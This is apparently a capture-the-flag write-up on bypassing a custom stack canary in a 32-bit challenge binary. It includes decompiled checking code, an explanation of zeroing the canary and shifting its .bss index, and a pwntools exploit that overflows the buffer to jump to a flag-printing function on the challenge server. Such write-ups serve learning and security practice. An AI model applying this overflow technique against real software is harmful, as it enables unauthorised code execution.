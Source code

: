 For this problem we have to defeat a custom implementation of a stack canary.

After some reversing of the binary. We can see that, basically, this is how the stack looks like:

* 40 bytes of input <-- esp
* 4 bytes of canary from `/dev/urandom`
* index counter to the copy of the canary in `.bss`
* other stuff

Looking at this, we can see that if we overwrite the canary alone, the `checkCanary` will just exit: 

```
int __cdecl checkCanary(int canary)
{
  int result; // eax

  result = *(_DWORD *)(canary + 40);
  if ( result != cans[*(_DWORD *)(canary + 44)] )
  {
    puts("---------------------- HEY NO STACK SMASHING! --------------------");
    exit(1);
  }
  return result;
}
```

So, we have to change the index counter as well. Because the `cans` global array is located inside the `.bss` section, we know that it is initialized with `0x00`, and we are able to input null bytes through the `read` call in `doCanary`:

```
int __cdecl doCanary(void *buf)
{
  initCanary((canary *)buf);
  read(0, buf, 0x1A4u);
  return checkCanary((int)buf);
}
```

So in summary, we can overwrite the canary with null bytes and change the index counter to something that is larger than zero which will just point to a random place in `.bss`. Then both pointers to the canary will point to 4 null bytes, and the stack smashing detection would be bypassed. After bypassing the canary, we can just take control of `eip` and print out the flag.

Here is the exploit in python:

```python
from pwn import *

# sh = process('./canary')
sh = remote('18.222.227.1', 12345)

win = 0x080486b7

payload = 'a'*40
payload += '\x00'*4
payload += p32(2)
payload += p32(win)*10 # just to make sure :)

sh.sendlineafter('? ', payload)
sh.interactive()
```
